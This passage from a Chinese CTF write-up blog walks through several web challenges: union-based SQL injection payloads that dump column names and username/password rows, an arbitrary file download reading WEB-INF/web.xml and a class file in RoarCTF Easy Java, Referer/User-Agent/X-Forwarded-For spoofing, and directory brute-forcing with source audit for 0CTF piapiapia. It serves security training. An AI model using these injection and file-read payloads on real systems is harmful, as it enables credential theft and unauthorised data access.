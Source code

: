 `?username=2&password=12' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1')%23` 得到id,username,password
![](https://img-blog.csdnimg.cn/20200315224730203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
`?username=2&password=12' union select 1,2,(select group_concat(id,0x3a,username,0x3a,password) from l0ve1ysq1)%23`
![](https://img-blog.csdnimg.cn/20200315225140790.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
查看源码即可得到flag
## [RoarCTF 2019]Easy Java
账号admin，密码admin888可登录
![](https://img-blog.csdnimg.cn/20200315225725962.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
并没有什么卵用，查看help，发现很像文件包含,~~看完wp回来了~~
![](https://img-blog.csdnimg.cn/20200315225759866.png)
有一个任意文件下载漏洞，将请求方式换为POST即可
![](https://img-blog.csdnimg.cn/20200315230250828.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
```javascript
WEB-INF主要包含一以下文件或目录:
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
```
首先下载并读取初始化配置信息/WEB-INF/web.xml
![](https://img-blog.csdnimg.cn/20200315231045549.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
这个就是flag的路径，接下来用class读取出flag
`filename=WEB-INF/classes/com/wm/ctf/FlagController.class`
![](https://img-blog.csdnimg.cn/20200315231613267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
有一个base64编码的内容，解码可得到flag
![](https://img-blog.csdnimg.cn/20200315231722695.png)

参考文章：[[RoarCTF 2019]Easy Java](https://www.cnblogs.com/Cl0ud/p/12177085.html)
## [极客大挑战 2019]Http
拿到题目第一件事情查看源码
![](https://img-blog.csdnimg.cn/20200316125548641.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
访问得到提示：`It doesn't come from 'https://www.Sycsecret.com'`，使用Referer头
![](https://img-blog.csdnimg.cn/20200316130105403.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到提示：`Please use "Syclover" browser`，修改UA头
![](https://img-blog.csdnimg.cn/20200316130323946.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到提示：`No!!! you can only read this locally!!!`，使用XFF头
![](https://img-blog.csdnimg.cn/2020031613071740.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到了flag
## [0CTF 2016]piapiapia
~~看完wp~~，我这里首先下载了一个爆破目录的软件：[渗透实战之目录爆破工具dirsearch](https://github.com/maurosoria/dirsearch)
使用发现有`www.zip`文件，进行代码审计，接着下载了Seay源代码审计系统，下载链接：[Seay源代码审计系统](https://github.com/f1tz/cnseay)
![](https://img-blog.csdnimg.cn/20200316134452576.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到几个可能存在的漏洞，接着查看文件发现在config.php看到了flag
```php
<?php
	$config['hostname'] = '127.0.0.1';
	$config['username'] = 'root';
	$config['password'] = '';
	$config['database'] = '';
```